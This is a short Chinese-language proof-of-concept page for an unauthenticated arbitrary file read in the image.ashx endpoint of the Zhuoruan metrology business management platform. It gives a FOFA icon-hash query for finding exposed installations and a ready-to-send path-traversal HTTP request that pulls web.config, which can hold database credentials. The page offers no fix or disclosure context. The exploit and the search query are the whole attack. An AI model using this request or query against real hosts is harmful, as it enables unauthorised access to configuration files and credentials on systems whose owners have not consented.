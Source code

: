 # 卓软计量业务管理平台image.ashx任意文件读取漏洞

卓软计量业务管理平台 image.ashx 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa
```javascript
icon_hash="-334571363"
```

## poc
```javascript
GET /HuameiMeasure/image.ashx?image_path=./../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20241227214332200](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272143297.png)